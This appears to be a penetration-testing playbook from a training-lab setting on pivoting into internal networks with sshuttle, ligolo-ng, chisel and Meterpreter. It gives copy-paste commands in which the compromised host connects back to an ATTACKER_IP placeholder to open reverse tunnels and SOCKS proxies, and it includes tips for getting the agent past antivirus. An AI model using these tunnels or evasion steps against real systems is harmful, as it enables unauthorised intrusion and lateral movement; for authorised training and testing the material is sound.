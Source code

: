 ```yaml
---
title: Pivoting_Playbook_Active
tags: [pivoting, tunnels, ssh, ligolo-ng, sshuttle, chisel, meterpreter]
tools: [ssh, sshuttle, ligolo-ng, chisel, proxychains, nmap, impacket]
status: validated
validated_on: 2025-10-02
env: Kali_rolling, HTB_Academy
---
```


# Pivoting

**Goal:** fast, stable access to internal subnets with the least moving parts. Use this when a box is live and you need results now.

## Decision Flow
- **Have SSH creds/access to a pivot host?** → Start with **sshuttle** (quick L3-ish route).
- **Need full L3, multi-protocol, and tun interface?** → **ligolo-ng** (agent + proxy).
- **SSH blocked but HTTP/HTTPS allowed?** → **chisel** (reverse SOCKS). Use with proxychains.
- **Already on Meterpreter and it’s stable?** → Use `autoroute` + `socks_proxy` **only then**.

---

## sshuttle - fast poor-man’s VPN
You can `ping`/`nmap`/`rdp` internal targets directly without extra proxies. If routes don’t push, add `--dns` for internal resolution or specify `-x` exclusions.

```bash
# add multiple subnets by repeating the CIDR(s)
sudo sshuttle -r user@PIVOT 10.10.0.0/16 -v

```

---

## ligolo-ng - clean L3 via tun
When you want a real tun interface and stable, multi-protocol traffic (RDP/SMB/LDAP/etc.).

**Attacker (proxy):**

```bash
sudo ./proxy -autocert
# inside ligolo console:
interface_create --name pivot0
```

**Pivot (agent):**

```bash
./agent -connect ATTACKER_IP:11601
```

**Back on attacker (console):**
```text
session            # select the agent
tunnel_start --tun pivot0
# then add routes to the target subnets using your OS route commands
```

**What good looks like:** `ip addr` shows `pivot0` tun; `ip route` includes internal CIDRs; tools work natively.

---

## chisel - reverse SOCKS over HTTP
SSH won’t fly but egress to your host over HTTP[S] is allowed.

**Attacker:**
```bash
./chisel server --reverse -p 1234 --socks5 -v
```

**Pivot:**
```bash
./chisel client -v ATTACKER_IP:1234 R:socks
```

**Usage with proxychains:**
```bash
proxychains -q xfreerdp /v:TARGET:3389
```

SOCKS5 at `127.0.0.1:1080` works for TCP tools through proxychains.

---

## Meterpreter routing (only if you already have it)
Don’t force Meterpreter just for pivoting. If present and stable:

1) Start a `socks_proxy` in msfconsole.

2) Add routes with `post/multi/manage/autoroute`.

3) Run tools via `proxychains`/SOCKS.

4) Prefer native tunnels above when possible for simplicity.

---

## Quick Verification
```bash
# Show glibc/libc on pivot (sanity when dropping agents)
getconf GNU_LIBC_VERSION || true

# Show routes/tun on attacker
ip route | sed -n '1,50p'
ip addr show

# Confirm SOCKS works (for chisel/Meterpreter route)
proxychains -q curl -m 5 http://TARGET:80/ -I
```

---

## Common Obstacles & Fixes (short list)
- **ICMP blocked:** Use TCP `nmap -Pn` and application-layer checks.

- **DNS fails inside tunnel:** Add `--dns` (sshuttle) or set `/etc/resolv.conf` to internal DNS temporarily.

- **RDP/SMB stutter on SOCKS:** Prefer ligolo (L3) over SOCKS for chatty protocols.

- **Agent killed by AV:** Rename agent, place in tmp-paths, or use in-memory where appropriate and allowed.


---

## Cheatsheet (copy/paste)
```bash
# sshuttle quick add
sudo sshuttle -r user@PIVOT 172.16.5.0/23 --dns -v

# ligolo proxy/agent basics
sudo ./proxy -autocert; interface_create --name pivot0
./agent -connect ATTACKER_IP:11601
# route example (Linux host)
sudo ip route add 172.16.5.0/23 dev pivot0

# chisel reverse socks + proxychains
./chisel server --reverse -p 1234 --socks5
./chisel client ATTACKER_IP:1234 R:socks
proxychains -q nmap -sT -Pn -p445 172.16.5.10
```
